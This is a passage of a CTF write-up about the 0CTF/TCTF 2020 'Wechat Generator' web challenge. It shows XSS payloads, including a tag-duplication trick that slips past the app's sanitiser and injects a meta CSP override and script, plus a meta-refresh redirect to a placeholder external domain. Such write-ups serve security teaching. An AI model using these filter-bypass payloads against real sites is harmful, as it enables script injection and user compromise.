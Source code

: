 resulted in this encouraging output:

![](/assets/blog/0ctf-tctf-2020-quals/image-2.png)

I love you too!

Further reconnaissance took some time. Eventually, we found source code of the backend, located at `/app/app.py`:

![](/assets/blog/0ctf-tctf-2020-quals/image-3.png)

This source reveals the next step — secret endpoint:

![](/assets/blog/0ctf-tctf-2020-quals/image-4.png)

The URL should be located on the same origin `pwnable:5000`, so basically we need to find an XSS on Wechat Generator application. Trying something obvious like:

```md
[smile.png" /><script>_alert(1);</script><a href="smile]
```

However, this does not work:

![](/assets/blog/0ctf-tctf-2020-quals/image-5.png)

They have this quite strict Content-Security-Policy deployed:

```http
Content-Security-Policy: img-src * data:; default-src 'self'; style-src 'self' 'unsafe-inline'; connect-src 'self'; object-src 'none'; base-uri 'self'
```

Probably, we need to bypass CSP. The first issue is that `meta` and `src` HTML tags were stripped by the `app.py`. Looking again at the source code, we realized that it could be bypassed quite easily (note the “duplicated” tags):

```md
[smile.png" /><mmetaeta http-equiv="Content-Security-Policy" content="script-ssrcrc * 'unsafe-inline';"/><script>alert(1);</script><a href="smile]
```

resulted in:

```html
<image x="0" y="-60" height="100" xmlns:xlink="http://www.w3.org/1999/xlink" xlink:href="http://pwnable.org:5000/static/emoji/smile.png" /><meta http-equiv="Content-Security-Policy" content="script-src * 'unsafe-inline';"/><script>alert(1);</script><a href="smile.png" />
```

However, this still does not work:

![](/assets/blog/0ctf-tctf-2020-quals/image-6.png)

[Never assume anything.](https://twitter.com/NahamSec/status/1263523329278791680) We thought that we need to bypass CSP, but actually we did not have to. What was said at secret page, is we need to trigger `alert(1)` on resulting page. Maybe simple HTML redirect will work?

```md
[smile.png" /><mmetaeta http-equiv="refresh" content="0; url=http://your-own-domain.com/alert_one/"/><a href="smile]
```
